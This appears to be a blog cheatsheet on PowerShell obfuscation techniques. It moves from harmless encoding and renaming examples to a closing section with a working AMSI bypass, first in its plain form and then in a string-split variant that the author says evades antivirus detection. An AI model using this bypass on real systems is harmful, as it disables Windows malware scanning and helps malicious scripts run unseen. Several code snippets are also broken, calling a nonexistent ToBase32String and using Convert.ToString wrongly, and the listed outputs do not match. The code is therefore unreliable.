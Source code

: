 ```yaml
---
title: Ports 
date: 2023-01-06 16:35:00 +00:00
categories: [powershell, cheatsheet]
tags: [powershell, cheatsheet]     # TAG names should always be lowercase
---
```



# Powershell Obsfucation tricks with examples

Here is a list of obsfucation techniques. 

- String encoding: This involves converting strings into a different format, such as base64 or hexadecimal, to make them harder to read and understand.
- Command substitution: This involves using commands that generate output and assigning the output to a variable, making it difficult to determine the original command.
- Variable renaming: This involves giving variables intentionally confusing names to make it harder to understand the code.
- Function renaming: Similar to variable renaming, this involves giving functions intentionally confusing names to make the code harder to understand.
- Comment removal: Removing comments from the code can make it harder to understand and follow.
- Code concatenation: This involves breaking up code into smaller pieces and concatenating them together, making it harder to read and understand.
- Control flow obfuscation: This involves using techniques like loop unrolling, where a loop is replaced with multiple copies of the code it contains, making it harder to understand the code's logic.

Remember that while obfuscation can make it harder for someone to understand your code, it is not a foolproof method for hiding it. It is always possible for someone with enough knowledge and resources to reverse-engineer obfuscated code.


1. String encoding:

```powershell
$string = "Hello World"
$encodedString = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
# Output: "SGVsbG8gV29ybGQ="
```

2. Command substitution:

```powershell
$output = dir | Out-String
$command = "Get-ChildItem"
Invoke-Expression $command
# Output: The contents of the current directory
```

3. Variable renaming:

```powershell
$a = 1
$b = 2
$c = 3
$xyz = $a + $b + $c
# Output: 6
```

4. Function renaming:

```powershell
function abc {
    "Hello World"
}

abc
# Output: "Hello World"
```

5. Comment removal:

```powershell
# This is a comment
Write-Output "Hello World"

# Output: "Hello World"
```

6. Code concatenation:

```
$code = "Write-Output `"H`" + `"ello`""
$code += " `"W`" + `"orld`""
Invoke-Expression $code
# Output: "Hello World"
```

7. Control flow obfuscation:

```powershell
$i = 0
$output = ""

while ($i -lt 5) {
    $output += "Hello "
    $i++
}

$output += "World"
Write-Output $output
# Output: "Hello Hello Hello Hello Hello World"
```

8. Charater substitution

```powershell
$string = "He110 W0r1d"
$charSub = $string.Replace("1", "l").Replace("0", "o")
# Output: "Hello World"
```


## String encoding expanded

Here is an example of encoding and decoding using base64, base32, base16 (hexadecimal), base8 (octal), and base2 (binary):

All the base's

```powershell
# Encode
$string = "Hello World"
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
$base32 = [System.Convert]::ToBase32String([System.Text.Encoding]::UTF8.GetBytes($string))
$base16 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 16)
$base8 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 8)
$base2 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 2)

# Output:
# base64: "SGVsbG8gV29ybGQ="
# base32: "NBSWY3DPEB3W64TMMQ======"
# base16: "48656c6c6f20576f726c64"
# base8: "15015415152074747464544"
# base2: "1001000 11100110 11001100 11001100 11001111 100000 1010111 11011111 11100110 11001100 11001111 11010000"

# Decode (this shows the base64 decode method only) 
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64))
# Output: "Hello World"
```

> Note that the FromBase64String and GetBytes methods of the System.Convert and System.Text.Encoding classes, respectively, can be used to decode the encoded strings. You can also use the ToBase64String, ToBase32String, and ToString methods to encode strings in these different bases.

## Amsi bypass fudding!

Taking one of the original Amsi bypass methods for powershell and applying some of the techinques above lets see what we can do! 

Original Amsi bypass (Detected) 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](https://user-images.githubusercontent.com/5285547/211034087-1cd5bd53-060c-41b4-8a55-1cf973a20beb.png)

Now lets try to split a string up or two!

Lets start with the `"System.Management.Automation.AmsiUtils"` specifically the `AmsiUtils` part

By using string replacement `str{0}{1}g -f "i","n"` and Replaceing a variable we can bypass the AV

iex
```
[Ref].Assembly.GetType('System.Management.Automation.BBB'+'msiU{0}s' -f 'til' -Replace("BBB", "A")).GetField(('amsiI{0}tFailed' -f 'ni'),'NonPublic,Static').SetValue($null,$true)
```
> Not blocked! 


There are numerous ways to bypass using simple tricks like the above, have a play and get creative! 
